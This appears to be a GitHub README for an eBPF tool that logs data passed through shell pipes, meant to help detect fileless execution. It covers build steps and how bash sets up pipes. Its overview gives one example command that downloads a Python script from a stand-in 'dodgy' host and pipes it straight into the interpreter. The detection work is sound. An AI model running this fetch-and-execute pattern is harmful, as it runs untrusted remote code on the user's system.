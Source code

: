 # BPF-PipeSnoop
Example program using eBPF to log data being based in using shell pipes (`|`)

# Overview
Shells can parse data between programs using pipes, e.g.:
```bash
curl https://dodgy.com/loader.py | python -
```

In this example, a python script is downloaded from the internet and executed,
without the file being written to disk, and its content is not visible on the commnandline.


`pipesnoop` is a demonstration of how you could detect when data is being passed using pipes
and log it, all using eBPF.

# Building
```bash
# First clone the repository and the libbpf submodule
git clone --recursive https://github.com/pathtofile/bpf-pipesnoop.git
cd bpf-pipesnoop/src
make
```
This should generate the program `pipesnoop` in the same directory.

# Running
Just run as root and watch the output:
```bash
sudo ./pipesnoop
```

# How it works
(Note experts will have better descripion than this)
When bash is given a command to run multiple programs with a pipe in between, a number of things happen.
If the example is:
```bash
bash -c "apple | ball"
```
Then this will happen:

### Bash pipe
bash will use the syscall `pipe` to create an annonamous pipe.
This returns two file descriptors, 1 for each end of the pip, e.g. fds `3` and `4`.

### Bash clone
bash will call `clone` twice to create `apple` and `ball`.
Both programs inhearet all of bash's fds, so they also has fds `3` and `4`.
**important note** this means both `apple` and `ball` start running at (almost) the same time,
i.e. `ball` does *not* wait for `apple` to finish before running.

### Apple close and dup2
`apple` will close one end of the pipe e.g. `3`, then call `dup2` to overwrite its `stdout` or `1`
fd with the non-closed end of the pipe, e.g. `dup2(4, 1)`.

### Ball close and dup2
`ball` will close the other end of the pipe, e.g. `4`, then call `dup2` to overwrite its `stdin` or `0`
fd with the non-closed end of the pipe, e.g. `dup2(3, 0)`.

### Apple write
`apple` will start writing data to `stdout` like normal, but due to the `dup2`
call it ends up instead into the pipe.

### Ball read
`ball` will start reading data from its `stdin` like normal, but due to the `dup2`
call it ends up instead reading from the pipe.

### Pipe close
When `apple` closes, it will send an 'end of stream' down the pipe, so `ball` knows it has finished reading.


# Aknowledgements
The skeleton of this project was made with the help of [Libpf-Bootstrap](https://github.com/libbpf/libbpf-bootstrap).

